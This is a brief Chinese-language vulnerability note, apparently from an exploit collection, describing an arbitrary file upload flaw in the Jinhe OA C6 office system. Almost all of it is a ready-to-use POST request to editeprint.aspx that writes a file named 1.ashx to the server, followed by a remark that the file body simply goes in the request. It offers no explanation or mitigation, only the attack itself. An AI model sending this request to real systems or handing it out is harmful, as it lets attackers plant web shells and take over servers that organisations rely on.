 # 金和OA C6任意文件上传

    ```
内容:
POST /C6/Jhsoft.Web.module/eformaspx/editeprint.aspx?key=writefile&filename=1.ashx&KeyCode=sxfZyQBw8yQ=&designpath=/C6/&typeid=&sPathfceform=./

放文件内容即可，但是没有包
```
